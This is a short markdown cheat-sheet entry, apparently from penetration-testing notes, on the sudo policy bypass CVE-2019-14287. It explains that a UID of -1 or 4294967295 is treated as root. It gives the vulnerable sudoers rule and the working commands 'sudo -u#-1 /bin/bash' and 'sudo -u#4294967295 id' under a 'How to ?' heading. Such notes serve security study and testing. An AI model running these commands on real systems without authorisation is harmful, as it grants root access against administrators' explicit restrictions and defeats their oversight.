 # Security Bypass
The security policy bypass vulnerability that allows users on a Linux system to execute commands as root, while the user permissions in the `sudoers` file explicitly prevents these commands from being run as root.

If you specify a UID of -1 (or its unsigned equivalent: 4294967295), Sudo would incorrectly read this as being 0 (i.e. root).  
E.g: `sudo -u#-1 /bin/bash` 
## How to ?
```
# Exploitable when a user have the following permissions (sudo -l)
(ALL, !root) ALL

# If you have a full TTY, you can exploit it like this
sudo -u#-1 /bin/bash
sudo -u#4294967295 id
```

## References
- [CVE-2019-14287](https://www.exploit-db.com/exploits/47502)